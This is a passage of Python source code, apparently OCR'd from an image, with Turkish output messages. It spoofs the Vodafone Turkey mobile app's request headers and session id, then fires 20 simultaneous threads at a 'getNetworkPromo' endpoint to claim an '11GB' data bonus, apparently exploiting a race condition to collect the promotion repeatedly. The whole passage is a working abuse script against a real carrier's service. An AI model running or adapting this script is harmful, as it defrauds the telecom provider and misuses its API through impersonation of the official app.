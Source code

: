     "User-Agent": "okhttp/4.10.0"

}

subheaders = {

    'VF_INT_CALLER_ID': 'MVATR',

    'vf-channel': 'mobile',

    'vf-trace-transaction-id': 'd3f9a288-70e4-4942-a96a-a3aa44987ea4',

    'vf-country-code': 'TR',

    'sid': proid,

    'Host': 'm.vodafone.com.tr',

    'Connection': 'Keep-Alive',

    'Accept-Encoding': 'gzip',

    'User-Agent': 'okhttp/4.10.0'

}

 

print(p_cyan+"[✓]Giriş Yapıldı"+reset)

time.sleep(1)

 

gb_data = {'method':'getNetworkPromo','promoType':'growth','sid':proid}

 

def send_request():

    resx = requests.post(url, headers=subheaders, data=gb_data).json()["result"]

    if resx == "SUCCESS":

     print(f"{p_yesil}[✓] {p_cyan}11GB {p_sari}Alındı{reset}")

    else:

     print(p_kirmizi+"[×] BOŞ"+reset)

threads = []

for _ in range(20):

    thread = threading.Thread(target=send_request)

    threads.append(thread)

    thread.start()

 

